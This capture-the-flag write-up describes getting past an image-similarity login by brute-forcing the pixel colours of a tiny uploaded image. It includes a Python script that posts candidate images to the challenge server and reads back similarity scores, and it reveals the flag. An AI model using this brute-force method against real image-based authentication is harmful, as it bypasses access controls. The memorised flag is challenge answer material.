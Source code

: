 # Emmel

> Points: 1222 [2000]

## Description

> Investigators have found a curious login page on a server belonging to COViD. Can you get past the login screen?

## Solution
The approach to this challenge was to create a picture that was most similar to the image being stored on the server. 

Initially we uploaded quite a few pictures but did not manage to obtain more than 50%. 

Hence, we wrote a script to brute force all rgb for a single pixel however that did not work as well.

As such we wrote a script that bruteforces rgb for a 4 pixels and that manage to work.

Submitting [40.jpg](40.jpg) gave us the flag `govtech-csg{I_L0V3_G00D_D0GG0S!}`

```python
from requests import post
from PIL import Image
color =[]

for i in range(0,256):
    img = Image.new('RGB',(2,2),color=(0,0,0))
    img.putpixel((0,0),(255,43,0))
    img.putpixel((0,1),(17,2,2))
    img.putpixel((1,0),(1,i,0))
    img.save("{}.jpg".format(i))
    files = {'file': open('{}.jpg'.format(i),'rb')}
    url = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/recognize"
    r = post(url, files=files)
    reg = re.findall(r"Similarity: (.*)%", r.text)
    if reg:
        val = float(reg[0])
        color.append((val,i))
    else:
        print(r.text)
        print(i)
        break;  
color.sort(reverse=True)
print(color[:5])
```

## Fun fact
After obtaining the flag we saw the floating dogos. Apparently that picture if converted to jpg could also solve the challenge LMAO
Try it yourself! It's in [dogos.jpg](dogos.jpg)
## Flag
`govtech-csg{I_L0V3_G00D_D0GG0S!}`